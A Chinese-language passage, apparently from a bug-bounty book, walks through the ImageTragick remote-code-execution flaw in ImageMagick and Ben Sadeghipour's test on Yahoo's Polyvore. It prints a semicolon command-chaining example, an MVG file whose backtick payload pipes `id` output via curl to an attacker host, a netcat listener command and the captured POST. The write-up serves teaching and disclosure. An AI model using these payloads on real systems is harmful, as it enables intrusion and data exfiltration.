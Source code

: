 ```
wget -q -O "%o" "https://example.com";|ls "-la"
```

如同早期涉及将额外命令链到`ping`的 RCE 示例一样，这段代码通过使用分号将额外的命令行功能链到预定功能。

`delegate`功能可以被允许外部文件引用的图像文件类型滥用。例子包括 SVG 和 ImageMagick 定义的文件类型 MVG。当 ImageMagick 处理图像时，它会尝试根据文件内容而不是扩展名来猜测文件类型。例如，如果开发人员试图通过允许应用程序仅接受以*.jpg*结尾的用户文件来净化用户提交的图像，攻击者可以通过将*.mvg*文件重命名为*.jpg*来绕过净化。应用程序会认为该文件是安全的*.jpg*文件，但 ImageMagick 会根据文件内容正确识别该文件类型为 MVG。这将允许攻击者滥用 ImageMagick 的 RCE 漏洞。用于滥用此 ImageMagick 漏洞的恶意文件示例可以在*[`imagetragick.com/`](https://imagetragick.com/)*找到。

在此漏洞公开披露并且网站有机会更新其代码后，Ben Sadeghipour 开始寻找使用未修补版本 ImageMagick 的网站。作为他的第一步，Sadeghipour 在自己的服务器上重新创建了这个漏洞，以确认他有一个有效的恶意文件。他选择使用来自*[`imagetragick.com/`](https://imagetragick.com/)*的示例 MVG 文件，但他本来也可以使用 SVG 文件，因为这两者都引用了外部文件，这些外部文件将触发 ImageMagick 的`delegate`功能。以下是他的代码：

```
   push graphic-context

   viewbox 0 0 640 480

➊ image over 0,0 0,0 'https://127.0.0.1/x.php?x=`id | curl\

     http://SOMEIPADDRESS:8080/ -d @- > /dev/null`'

   pop graphic-context
```

这个文件的重要部分是➊处的那一行，其中包含恶意输入。让我们来分解它。攻击的第一部分是*https://127.0.0.1/x.php?x=*。这是 ImageMagick 在其委托行为中期望的远程 URL。Sadeghipour 随后添加了`` `id ``。在命令行中，反引号（`` ` ``）表示 Shell 应在主命令之前处理的输入。这确保了 Sadeghipour 的有效负载（下一步描述的内容）被立即处理。

管道符号（`|`）将一个命令的输出传递给下一个命令。在这种情况下，`id`的输出被传递给`curl http://`SOMEIPADDRESS`:8080/ -d @-`。cURL 库用于发起远程 HTTP 请求，在此情况下，它向 Sadeghipour 的 IP 地址发起请求，该地址在端口 8080 上监听。`-d`标志是 cURL 的选项，用于将数据作为`POST`请求发送。`@`指示 cURL 按原样使用输入，不进行其他处理。连字符（`–`）表示将使用标准输入。当所有这些语法与管道符号（`|`）结合时，`id`命令的输出将作为`POST`请求体传递给 cURL，且不进行任何处理。最后，`> /dev/null`代码会丢弃命令的任何输出，因此不会打印到漏洞服务器的终端。这有助于防止目标意识到他们的安全性已被破坏。

在上传文件之前，Sadeghipour 启动了一个服务器，通过 Netcat 监听 HTTP 请求，Netcat 是一种常见的网络工具，用于读取和写入连接。他运行了命令`nc -l -n -vv -p 8080`，这允许 Sadeghipour 记录传递到他服务器上的`POST`请求。`-l`标志启用监听模式（接收请求），`-n`防止 DNS 查找，`-vv`启用详细日志记录，`-p 8080`定义了使用的端口。

Sadeghipour 在 Yahoo!网站 Polyvore 上测试了他的有效载荷。在将文件上传到网站作为图片后，Sadeghipour 收到了以下`POST`请求，其中包含在 Polyvore 服务器上执行`id`命令的结果。

```
Connect to [REDACTED] from (UNKNOWN) [REDACTED] 53406

POST / HTTP/1.1

User-Agent: [REDACTED]

Host: [REDACTED]

Accept: /

Content-Length: [REDACTED]

Content-Type: application/x-www-form-urlencoded

uid=[REDACTED] gid=[REDACTED] groups=[REDACTED]
```
